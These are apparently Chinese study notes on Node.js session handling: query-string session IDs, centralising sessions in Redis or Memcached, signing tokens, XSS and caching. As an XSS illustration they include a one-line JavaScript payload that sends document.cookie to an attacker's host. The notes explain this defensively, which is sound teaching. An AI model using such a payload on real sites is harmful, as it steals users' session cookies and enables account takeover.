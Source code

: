 2. 通过查询宇符串来实现浏览器端和服务器端数据的对应；

   用户访问`http:/localhost/pathnamel`时，如果服务器端发现查询字符串中不带 session_id 参数，就会将用户跳转到`http:localhost/pathname?session_id=12344567`这样一个类似的地址。如果浏览器收到 302 状态码和 Location 报头，就会重新发起新的请求；  
   **注：** 也需要检测 session 是否过期；禁用 Cookie 时用；不安全（将 url 发给别人）

3. Session 与内存

   - 问题：

     1. node 对内存有限制，将 Session 直接存在内存中可能接触到内存上限；并且内存中的数据量加大，必然会引起垃圾回收的频繁扫描，引起性能问题。

     2. 另一个问题，我们可能为了利用多核 CPU 而启动多个进程，用户请求的连接将可能随意分配到各个进程中，Node 的进程与进程之间是不能直接共享内存的，用户的 Session 可能会引起错乱。

   - 解决方法：将 Session 集中化，将原本可能分散在多个进程里的数据，统一转移到集中的数据存储中。  
     目前常用的工具是 Redis、Memcached 等，通过这些高效的缓存，Node 进程无须在内部维护数据对象，垃圾回收问题和内存限制问题都可以迎刃而解，并且这些高速缓存设计的缓存过期策略更合理更高效，比在 Node 中自行设计缓存策略更好。

4. Session 与安全

   - 理论上自行设计的随机算法的口令容易命中有效的口令值；--》将口令通过私钥加密进行签名，使得伪造的成本较高。
   - 将客户端的某些独有信息与口令作为原值，然后签名，这样攻击者一旦不在原始的客户端上进行访问，就会导致签名失败。这些独有信息包括用户 IP 和用户代理(User Agent)

5. XSS 漏洞--跨站脚本攻击  
   它的主要形成原因多数是用户的输人没有被转义，而被直接执行。

   `location.href = "http://c.com/?" + document.cookie` 这段代码将该用户的 Cookie 提交给了 c.com 站点，这个站点就是攻击者的服务器，他也就能拿到该用户的 Session 口令。然后他在客户端中用这个口令伪造 Cookie,从而实现了伪装用户的身份。如果该用户是网站管理员，就可能造成极大的危害。

## 缓存

大多少缓存只应用在 GET 请求中，post、delete、put 这类带`行为性`的请求一般不做缓存；

## Basic 认证 ---》缺点太多
